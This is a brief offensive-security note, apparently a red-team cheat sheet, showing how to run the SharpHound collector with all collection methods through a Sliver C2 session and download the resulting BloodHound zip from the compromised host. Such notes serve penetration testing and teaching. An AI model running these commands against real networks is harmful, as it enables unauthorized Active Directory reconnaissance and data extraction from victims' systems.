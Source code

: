 # With a session with tickets we are able to use Bloodhound tool integrated with Sliver

```bash
sharp-hound-4 -- -c all
```

---

# Download the file directly with Sliver

```bash
download <ID>-BloodHound.zip

#Then drag and drop the zip file onto a BloodHound graph to import it
```
